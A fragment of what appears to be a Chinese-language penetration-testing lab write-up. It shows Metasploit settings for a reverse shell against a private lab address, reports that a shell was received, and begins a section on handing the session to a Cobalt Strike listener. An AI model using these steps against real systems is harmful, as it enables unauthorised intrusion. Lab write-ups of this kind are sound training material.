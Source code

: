 ```
set lhost 192.168.111.128
set lport 2333
set rhost 192.168.111.80
set target 1	(默认为0，是unix)
```

![image-20220907120701098](images/13.png)

收到shell

## MSF联动CS上线

CS监听设置

![image-20220907120754764](images/14.png)
